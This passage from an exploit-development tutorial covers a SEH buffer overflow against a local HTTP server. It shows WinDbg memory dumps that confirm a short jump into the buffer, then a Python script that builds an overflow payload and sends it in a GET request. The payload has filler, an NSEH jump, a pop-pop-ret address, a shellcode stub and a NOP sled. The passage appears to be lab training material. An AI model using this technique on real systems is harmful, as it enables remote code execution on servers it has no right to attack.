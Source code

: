 Examine the memory before executing the jump to make sure we'll land in the desired buffer:

```
0:012> t
eax=77e06f82 ebx=01c4ba00 ecx=101576c0 edx=77e06fa0 esi=00000000 edi=00000000
eip=01c4ff56 esp=01c4b904 ebp=01c4b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
01c4ff56 eb06            jmp     01c4ff5e
0:012> dd 01c4ff5e - 0x06
01c4ff58  101576c0 43434343 43434343 43434343
01c4ff68  43434343 43434343 43434343 43434343
01c4ff78  43434343 43434343 43434343 43434343
01c4ff88  43434343 43434343 43434343 43434343
01c4ff98  43434343 43434343 43434343 43434343
01c4ffa8  43434343 43434343 43434343 43434343
01c4ffb8  43434343 43434343 43434343 43434343
01c4ffc8  43434343 43434343 43434343 43434343
```




## 6. Find a Region for the Shellcode

Add a shellcode stub to the script and break after the short jump over NSEH.

{% code title="sehof_shellcode_region.py" %}
```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
    return struct.pack('<I', num)

host = '127.0.0.1'
port = 80
size = 6000
shellcode_size = 600

shellcode  = little_endian(0xd34dc0d3)
shellcode += b'C' * (shellcode_size - len(shellcode))

exp  = little_endian(0x06eb9090)  # (NSEH) jmp +06
exp += little_endian(0x101576c0)  # (PPR) pop eax; pop ebx; ret
exp += b'\x90\x90'                # (NSEH) offset for the 'eb 06' part of the jmp instruction

filler = b'A' * (2499 - 4)
nop    = b'\x90' * (size - len(filler + exp + shellcode))

buf = filler + exp + shellcode + nop
print(f'buf({len(buf)}): filler({len(filler)}) -> exp({len(exp)}) -> shellcode({len(shellcode)}) -> nop({len(nop)})')

request  = b'GET /' + buf + b'HTTP/1.1' + b'\r\n'
request += b'Host: ' + host.encode() + b'\r\n'
request += b'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0' + b'\r\n'
request += b'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' + b'\r\n'
request += b'Accept-Language: en-US,en;q=0.5' + b'\r\n'
request += b'Accept-Encoding: gzip, deflate' + b'\r\n'
request += b'Connection: keep-alive' + b'\r\n\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
```
